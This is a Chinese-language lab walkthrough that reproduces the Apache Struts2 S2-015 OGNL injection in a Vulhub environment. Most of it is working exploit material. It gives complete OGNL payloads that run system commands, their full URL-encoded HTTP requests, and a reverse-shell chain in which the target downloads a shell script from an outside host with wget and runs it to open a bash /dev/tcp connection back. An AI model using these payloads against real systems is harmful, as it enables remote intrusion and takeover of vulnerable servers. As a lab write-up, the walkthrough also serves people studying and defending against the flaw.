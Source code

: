 # Apache Struts2 S2-015 远程代码执行漏洞

## 漏洞描述

漏洞产生于配置了 Action 通配符 *，并将其作为动态值时，解析时会将其内容执行 OGNL 表达式，例如：

```
<package name="S2-015" extends="struts-default">
    <action name="*" class="com.demo.action.PageAction">
        <result>/{1}.jsp</result>
    </action>
</package>
```

上述配置能让我们访问 name.action 时使用 name.jsp 来渲染页面，但是在提取 name 并解析时，对其执行了 OGNL 表达式解析，所以导致命令执行。在实践复现的时候发现，由于 name 值的位置比较特殊，一些特殊的字符如 / " \ 都无法使用（转义也不行），所以在利用该点进行远程命令执行时一些带有路径的命令可能无法执行成功。

还有需要说明的就是在 Struts 2.3.14.1 - Struts 2.3.14.2 的更新内容中，删除了 SecurityMemberAccess 类中的 setAllowStaticMethodAccess 方法，因此在 2.3.14.2 版本以后都不能直接通过 `#_memberAccess['allowStaticMethodAccess']=true` 来修改其值达到重获静态方法调用的能力。

漏洞详情:

- http://struts.apache.org/docs/s2-015.html

## 漏洞影响

影响版本: 2.0.0 - 2.3.14.2

## 环境搭建

Vulhub 执行以下命令启动 s2-015 测试环境：

```
docker-compose build
docker-compose up -d
```

访问 `http://your-vps-ip:8080/index.html` 即可进入上传表单页面。

## 漏洞复现

这里为了到达执行命令的目的可以用 kxlzx 提到的调用动态方法 (new java.lang.ProcessBuilder('calc')).start() 来解决，另外还可以借助 Java 反射机制去间接修改：

```
#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true)
```

可以构造 Payload 如下：

```
${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}
```

进行 URL 编码后的 Payload：

```
GET /S2-015/%24%7b%23%63%6f%6e%74%65%78%74%5b%27%78%77%6f%72%6b%2e%4d%65%74%68%6f%64%41%63%63%65%73%73%6f%72%2e%64%65%6e%79%4d%65%74%68%6f%64%45%78%65%63%75%74%69%6f%6e%27%5d%3d%66%61%6c%73%65%2c%23%6d%3d%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2e%67%65%74%43%6c%61%73%73%28%29%2e%67%65%74%44%65%63%6c%61%72%65%64%46%69%65%6c%64%28%27%61%6c%6c%6f%77%53%74%61%74%69%63%4d%65%74%68%6f%64%41%63%63%65%73%73%27%29%2c%23%6d%2e%73%65%74%41%63%63%65%73%73%69%62%6c%65%28%74%72%75%65%29%2c%23%6d%2e%73%65%74%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2c%74%72%75%65%29%2c%23%71%3d%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%74%6f%53%74%72%69%6e%67%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%69%64%27%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%2c%23%71%7d.action HTTP/1.1
```

直接回显：

![image-20220301185208869](images/202203011852988.png)

除了上面所说到的这种情况以外，S2-015 还涉及一种二次引用执行的情况：

```
<action name="param" class="com.demo.action.ParamAction">
    <result name="success" type="httpheader">
        <param name="error">305</param>
        <param name="headers.fxxk">${message}</param>
    </result>
</action>
```

这里配置了 `<param name="errorMessage">${message}</param>`，其中 message 为 ParamAction 中的一个私有变量，这样配置会导致触发该 Result 时，Struts2 会从请求参数中获取 message 的值，并在解析过程中，触发了 OGNL 表达式执行，因此只用提交 %{1111*2} 作为其变量值提交就会得到执行。这里需要注意的是这里的二次解析是因为在 struts.xml 中使用 ${param} 引用了 Action 中的变量所导致的，并不针对于 type="httpheader" 这种返回方式。

可以构造 Payload 如下：

```
%{#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}
```

进行 URL 编码后的 Payload（最开始的%24 变为%25）：

```
GET /param.action?message=%25%7b%23%63%6f%6e%74%65%78%74%5b%27%78%77%6f%72%6b%2e%4d%65%74%68%6f%64%41%63%63%65%73%73%6f%72%2e%64%65%6e%79%4d%65%74%68%6f%64%45%78%65%63%75%74%69%6f%6e%27%5d%3d%66%61%6c%73%65%2c%23%6d%3d%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2e%67%65%74%43%6c%61%73%73%28%29%2e%67%65%74%44%65%63%6c%61%72%65%64%46%69%65%6c%64%28%27%61%6c%6c%6f%77%53%74%61%74%69%63%4d%65%74%68%6f%64%41%63%63%65%73%73%27%29%2c%23%6d%2e%73%65%74%41%63%63%65%73%73%69%62%6c%65%28%74%72%75%65%29%2c%23%6d%2e%73%65%74%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2c%74%72%75%65%29%2c%23%71%3d%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%74%6f%53%74%72%69%6e%67%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%69%64%27%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%2c%23%71%7d HTTP/1.
```

### 反弹 shell

通过第二种方式获取反弹 shell，注意要进行 URL 编码。

编写 shell 脚本并启动 http 服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传 shell.sh 文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传 shell.sh 文件的 Payload 为：

```
%{#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('wget 192.168.174.128/shell.sh').getInputStream()),#q}
```

执行 shell.sh 文件的命令为：

```
bash /usr/local/tomcat/shell.sh
```

执行 shell.sh 文件的 Payload 为：

```
%{#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('bash /usr/local/tomcat/shell.sh').getInputStream()),#q}
```

成功接收反弹 shell：

![image-20220301190047036](images/202203011900116.png)
